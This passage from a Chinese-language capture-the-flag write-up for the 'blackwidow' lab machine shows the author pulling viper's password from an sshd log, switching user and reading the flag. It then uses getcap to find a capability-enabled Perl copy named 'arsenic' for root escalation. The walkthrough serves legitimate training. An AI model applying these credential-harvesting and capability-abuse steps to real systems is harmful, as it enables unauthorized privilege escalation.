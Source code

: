 
然后在日志里面可以找到一个viper用户的密码 `?V1p3r2020!?`
```bash
Dec 12 16:56:43 test sshd[29560]: Invalid user ?V1p3r2020!? from 192.168.1.109 port 7090

(remote) www-data@blackwidow:/var/backups$ su viper
Password:
viper@blackwidow:/var/backups$

viper@blackwidow:~$ cat local.txt
d930fe79919376e6d08972dae222526b

```
我估计是viper用户把密码当成用户名了


## 4. 提权root
### 4.1. 提权检测
```bash
viper@blackwidow:/tmp$ /sbin/getcap -r / 2>/dev/null
/home/viper/backup_site/assets/vendor/weapon/arsenic = cap_setuid+ep
/usr/bin/perl =
/usr/bin/perl5.28.1 =
/usr/bin/ping = cap_net_raw+ep
/usr/lib/squid/pinger = cap_net_raw+ep
```
发现 `arsenic` 具有 `cap_setuid` 具有 `cap_setuid` 即允许进程更改其有效用户 ID。

查看一下 `arsenic` 的帮助文档
```bash
viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic -h

Usage: ./arsenic [switches] [--] [programfile] [arguments]
  -0[octal]         specify record separator (\0, if no argument)
  -a                autosplit mode with -n or -p (splits $_ into @F)
  -C[number/list]   enables the listed Unicode features
  -c                check syntax only (runs BEGIN and CHECK blocks)
  -d[:debugger]     run program under debugger
  -D[number/list]   set debugging flags (argument is a bit mask or alphabets)
  -e program        one line of program (several -e's allowed, omit programfile)
  -E program        like -e, but enables all optional features
  -f                don't do $sitelib/sitecustomize.pl at startup
  -F/pattern/       split() pattern for -a switch (//'s are optional)
  -i[extension]     edit <> files in place (makes backup if extension supplied)
  -Idirectory       specify @INC/#include directory (several -I's allowed)
  -l[octal]         enable line ending processing, specifies line terminator
  -[mM][-]module    execute "use/no module..." before executing program
  -n                assume "while (<>) { ... }" loop around program
  -p                assume loop like -n but print line also, like sed
  -s                enable rudimentary parsing for switches after programfile
  -S                look for programfile using PATH environment variable
  -t                enable tainting warnings
  -T                enable tainting checks
  -u                dump core after parsing program
  -U                allow unsafe operations
  -v                print version, patchlevel and license
  -V[:variable]     print configuration summary (or a single Config.pm variable)
  -w                enable many useful warnings
  -W                enable all warnings
  -x[directory]     ignore text before #!perl line (optionally cd to directory)
  -X                disable all warnings

Run 'perldoc perl' for more help with Perl.

```